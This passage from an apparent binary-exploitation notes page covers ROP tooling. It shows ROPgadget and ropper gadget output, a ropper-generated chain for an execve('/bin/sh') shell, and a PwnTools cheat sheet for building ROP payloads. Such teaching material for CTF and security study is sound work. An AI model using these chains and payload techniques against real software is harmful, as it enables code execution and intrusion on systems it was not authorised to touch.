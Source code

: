 {% hint style="warning" %}
`ropper` may find different gadgets than [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget), which is a similar tool that also finds gadgets, but may find different specific ones that are more useful:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ROPgadget --binary binary | grep rdi
</strong>0x000000000040062d : add byte ptr [rdi], dh ; ret
0x00000000004006a3 : pop rdi ; ret
0x0000000000400631 : sub byte ptr [rdi], dh ; ret
0x0000000000400629 : xor byte ptr [rdi], dh ; ret
</code></pre>
{% endhint %}

Ropper can even try to find a full chain for you. One example is the `execve('/bin/sh', 0, 0)` syscall, which can be automatically generated if everything required exists (note that it generated Python2 code):

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ropper -f /bin/bash --chain execve
</strong>...
[INFO] generating rop chain
...
rop += rebase_0(0x0000000000030a9f) # 0x0000000000030a9f: pop r12; ret;
rop += '//bin/sh'
rop += rebase_0(0x0000000000030503) # 0x0000000000030503: pop rbp; ret;
rop += rebase_0(0x0000000000119000)
rop += rebase_0(0x0000000000080ea9) # 0x0000000000080ea9: mov qword ptr [rbp], r12; pop rbx; xor eax, eax; pop rbp; pop r12; ret;
...
rop += rebase_0(0x0000000000030392) # 0x0000000000030392: syscall;
print rop
[INFO] rop chain generated!
</code></pre>

## PwnTools

I highly recommend using as much PwnTools magic as you can. It can significantly simplify your payload, and using `print(rop.dump())` you can still understand what it is trying to do to debug. Many times things like settings registers or calling functions are tedious, but with `ROP` it's a breeze.&#x20;

{% hint style="info" %}
For more general PwnTools syntax, see [#useful-syntax](pwntools.md#useful-syntax "mention")\
For more `ROP` specific syntax, see [the documentation](https://docs.pwntools.com/en/stable/rop/rop.html).&#x20;
{% endhint %}

```renpy
elf = ELF("./binary")

# Basics
rop = ROP(elf)
rop.call(0x401337)  # Jump to specific address
rop.call("name")  # Jump to function "name()"
rop.raw(b"\x00"*8)  # Add raw data to the ROP chain

# Automagic
rop.callme(1337)  # Call callme() function in the binary with 1337 argument
rop.call(rop.ret)  # Find and call a `ret` (return) instruction (useful for aligning the stack)
rop(rax=0xdead, rdi=0xbeef, rsi=0xcafe)  # Set registers
bin_sh = next(elf.search(b"/bin/sh\x00"))  # Search for string (returns address)

# Chain the payload into one
rop.chain()
# Dump details about the chain
```